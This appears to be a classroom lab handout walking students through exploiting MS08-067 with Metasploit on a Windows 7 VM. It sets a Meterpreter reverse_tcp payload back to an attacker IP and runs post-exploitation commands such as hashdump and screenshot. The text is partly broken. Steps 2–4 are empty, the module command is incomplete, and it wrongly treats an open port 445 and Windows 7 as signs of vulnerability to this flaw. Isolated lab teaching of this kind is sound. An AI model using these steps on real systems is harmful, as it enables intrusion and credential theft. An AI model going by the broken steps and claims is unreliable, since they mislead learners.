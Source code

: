 ## **Lab Assignment: Exploiting MS08-067 with Metasploit**

### **Objective**
Use Metasploit to exploit the **MS08-067 NetAPI vulnerability** on a vulnerable Windows 7 machine and gain a Meterpreter shell.



### **Steps**

**1. Lab Setup**

* Ensure you have:

  * **Kali Linux (attacker machine)** with `msfconsole` installed.
  * **Windows 7 vulnerable VM** (unpatched, with vulnerable `netapi32.dll`).
* Use **Host-Only Network** or **NAT Network** in VirtualBox/VMware for isolation.
* Confirm attacker and victim VMs are on the same network (`ifconfig` / `ipconfig`).



**2. Verify the Target is Alive**
On Kali, run:




**3. Scan the Target with Nmap**
Check if SMB (port 445) is open:



If port **445/tcp open** → the target is vulnerable to SMB exploits.



**4. Start Metasploit**




**5. Load the Exploit Module**

```bash
ms08_067_netapi
```


**6. Configure the Target (Victim)**

```bash
set RHOSTS <target-ip>
```



**7. Configure the Payload**
Choose a reverse shell payload:

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker-ip>
```


**8. Launch the Exploit**

```bash
exploit
```

If successful, you’ll get a **Meterpreter session**.


**9. Post-Exploitation Activities**
Inside the Meterpreter shell, try:

```bash
sysinfo          # Check system details
getuid           # Get current user
hashdump         # Dump password hashes (if allowed)
screenshot       # Take a screenshot of the victim’s desktop
```


**10. Reporting Requirement**
Each student should submit a short **lab report** containing:

* Screenshot of **Nmap scan results** (port 445 open).
* Screenshot of **msfconsole running the exploit**.
* Screenshot of **Meterpreter session** (`sysinfo` or `getuid`).
* A reflection: *“Why was MS08-067 such a critical vulnerability?”*

